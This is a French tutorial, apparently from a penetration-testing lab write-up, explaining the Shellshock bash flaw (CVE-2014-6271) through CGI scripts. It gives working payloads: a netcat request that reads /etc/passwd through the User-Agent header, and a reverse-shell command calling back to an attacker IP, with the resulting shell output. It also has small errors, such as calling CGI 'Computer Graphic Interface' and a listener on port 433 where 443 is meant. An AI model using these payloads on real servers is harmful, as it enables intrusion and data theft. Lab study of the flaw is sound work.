

# CVE-2014-6271/Shellshock

Cette vulnérabilité impact BASH ( Bourne Again Shell ). BASH est rarement exposé via les applications web mais il peut être indirectement exposé via une interface CGI (Computer Graphic Interface).


Dans l’exemple ci-dessus nous remarquons que lors de l’appel de notre page web nous appelons un GET sur un CGI/Status

CGI utilise la plus part du temps Python ou Perl pour communiquer avec le serveur.

### Comment Fonctionne les CGIS ? <a href="#cve-2014-6271-shellshock-commentfonctionnelescgis" id="cve-2014-6271-shellshock-commentfonctionnelescgis"></a>

Quand nous appelons une CGI; le server web (Apache dans dans notre exemple) va démarrer un nouveau processus et appeler la CGI. Ici, le serveur va démarrer un process BASH et lancer le script CGI.

Apache a besoin de passer les informations au script CGI. Pour ce faire, il va utiliser les variables d’environnement. Ces dernières sont disponible dans le script CGI. Cela permet à Apache de passer facilement tout les Headers pour la CGI. SI nous avons un Header HTTP nommé `blah` dans notre requête, nous aurons une variable d’environnement nommé `HTTP_BLAH` dans notre CGI.

### La vulnérabilité. <a href="#cve-2014-6271-shellshock-lavulnerabilite." id="cve-2014-6271-shellshock-lavulnerabilite."></a>

La source du problème provient de la déclaration des fonction interne dans BASH. La première version de la vulnérabilité est due a la possibilité d’exécuter du code après la déclaration d’une commande.

[https://seclists.org/oss-sec/2014/q3/650](https://seclists.org/oss-sec/2014/q3/650) (pour plus d’information)

1. Déclarer la variable d’environnement en utilisant `()`
2. Ajouter un Body vide pour la fonction `{ :;};`
3. Ajouter la commande à exécuter.

### Exploitation <a href="#cve-2014-6271-shellshock-exploitation" id="cve-2014-6271-shellshock-exploitation"></a>

#### Deux manière d’exploiter : <a href="#cve-2014-6271-shellshock-deuxmanieredexploiter" id="cve-2014-6271-shellshock-deuxmanieredexploiter"></a>

#### En utilisant Proxy (Burp ou OWASP) <a href="#cve-2014-6271-shellshock-enutilisantproxy-burpouowasp" id="cve-2014-6271-shellshock-enutilisantproxy-burpouowasp"></a>



\=> Modification du Header `User-agent` ici la commande nous permet de lire les fichiers present dans etc/passwd

Il faudra inspecter le Header HTTP de la réponse pour voir le résultat de la playload.

#### En utilisant Netcat <a href="#cve-2014-6271-shellshock-enutilisantnetcat" id="cve-2014-6271-shellshock-enutilisantnetcat"></a>

`$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: VULNERABLE_HTTP \r\nConnection: close\r\n\r\n" | nc VULNERABLE_HTTP 80`

ici nous remplissons un header de la même manière en utilisant une commande Netcat sur le port 80.

### Reverse Shell <a href="#cve-2014-6271-shellshock-reverseshell" id="cve-2014-6271-shellshock-reverseshell"></a>

Nous avons besoin que le serveur se connecte a notre poste. il faudra donc d'abord ouvrir un port sur notre system. Nous voulons que le port soit ouvert sur le serveur ainsi nous allons tester les ports les plus communs :

21 (FTP), 53 (DNS), 123 (NTP), 80 (HTTP) and 443 (HTTPs)

`nc -l -p 433`

Maintenant nous avons besoin d’adapter notre playload afin que le server se connecte a notre system sur le port 443.

la playload peux être injecté soit via burpsuite en injectant via le header User-Agent soit via netcat :

`echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80`

ainsi en retournant sur notre première commande Netcat nous pouvons accéder a notre reverse shell

```
# nc -l -p 443
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
```
